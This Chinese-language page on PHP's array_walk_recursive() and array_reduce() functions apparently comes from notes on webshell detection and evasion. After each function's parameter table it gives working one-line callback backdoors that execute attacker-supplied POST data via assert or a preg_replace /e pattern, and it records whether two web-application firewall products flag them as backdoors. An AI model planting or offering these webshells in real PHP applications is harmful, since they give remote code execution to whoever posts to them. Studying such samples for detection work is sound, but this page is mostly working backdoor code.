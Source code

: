 #### array_walk_recursive()

```php
array_walk_recursive(array,myfunction,parameter...)
```

array_walk_recursive() 函数对数组中的每个元素应用用户自定义函数。该函数与 array_walk()函数的不同在于可以操作更深的数组（一个数组中包含另一个数组）。

| 参数         | 描述                                                         |
| :----------- | :----------------------------------------------------------- |
| *array*      | 必需。规定数组。                                             |
| *myfunction* | 必需。用户自定义函数的名称。                                 |
| *userdata*,… | 可选。规定用户自定义函数的参数。您能够向此函数传递任意多参数。 |

```php
<?php
    $e = $_REQUEST['e'];
    $arr = array($_POST['pass'] => '|.*|e',);
    array_walk_recursive($arr, $e, '');
?>
```

| 安全狗                       | D盾             |
| :--------------------------- | :-------------- |
| 1 个安全风险 php后门回调木马 | 级别 5 已知后门 |



#### array_reduce()

```php
array_reduce(array,myfunction,initial)
```

array_reduce() 函数向用户自定义函数发送数组中的值，并返回一个字符串。

| 参数         | 描述                           |
| :----------- | :----------------------------- |
| *array*      | 必需。规定数组。               |
| *myfunction* | 必需。规定函数的名称。         |
| *initial*    | 可选。规定发送到函数的初始值。 |

```php
<?php
    $e = $_REQUEST['e'];
    $arr = array(1);
    array_reduce($arr, $e, $_POST['x']);
?>
    
<?php
    function sqlsec($value,$key)
    {   
        $x = $key.$value;
        print_r($x);
        $x($_POST['x']);
    }
    $a=array("assert");
    array_reduce($a,"sqlsec");
?>
```
